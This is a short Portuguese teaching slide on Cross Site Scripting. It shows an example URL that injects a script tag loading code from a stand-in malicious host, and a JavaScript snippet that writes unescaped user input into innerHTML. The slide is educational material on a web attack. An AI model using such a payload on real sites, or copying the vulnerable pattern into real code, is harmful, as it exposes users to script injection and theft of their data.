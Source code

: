 # Cross Site Scripting (XSS)

Permite que um atacante consiga executar script no navegador de uma vítima.

<br>

<div v-click>

```
http://site-inseguro.com/post?pesquisa=<script src="http://site-malicioso.com/script-malicioso.js"></script>
```

</div>

<br>

<div v-click>

Código javascript:

```javascript
var pesquisa = document.getElementById('pesquisa').value;
var resultado = document.getElementById('resultado');
resultado.innerHTML = 'Você pesquisou por: ' + pesquisa;
```
</div>